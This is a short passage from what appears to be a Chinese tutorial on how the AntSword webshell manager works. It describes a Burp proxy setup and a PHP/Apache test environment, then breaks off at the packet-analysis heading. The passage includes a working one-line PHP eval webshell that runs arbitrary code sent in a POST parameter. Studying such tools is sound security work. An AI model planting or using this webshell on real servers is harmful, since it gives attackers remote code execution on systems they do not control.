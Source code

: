 %pageLock%

### 蚁剑原理介绍

#### 前期准备

- 首先在蚁剑添加手动代理，用于`Burp`抓包分析

![](webshell原理.assets/webshell_1.png)

- PHP 5.4.45 + apache
- webshell

```php
<?php @eval($_POST['cmd']);?>
```

#### 抓包分析
